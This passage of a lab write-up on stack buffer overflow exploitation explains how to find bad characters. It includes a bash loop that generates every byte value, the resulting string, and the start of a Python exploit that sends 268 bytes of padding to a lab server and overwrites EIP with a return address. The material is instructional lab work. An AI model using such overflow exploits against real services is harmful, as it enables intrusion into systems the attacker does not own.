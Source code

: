 ## Finding Bad Characters

Bad characters in the context of buffer overflow exploitation refers to the characters that cannot be used in the shellcode as they would interfere with the vulnerable program and most likely make it crash.

Although in this lab we did not have to deal with bad characters, below provided are some guidelines on the general process of how to identify bad characters and how to deal with them.

### Generate Bad Characters String

Generate a list of all possible bad characters using bash:

```bash
for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

...which results in the following:

```text
x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

![String of characters for identifying bad characters](../../../.gitbook/assets/image%20%28830%29.png)

### Testing for Bad Characters

Update the exploit to ensure it sends that string of bad characters as the payload:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"\x1b\xbd\x98\x77"
# 7798BD1B
```
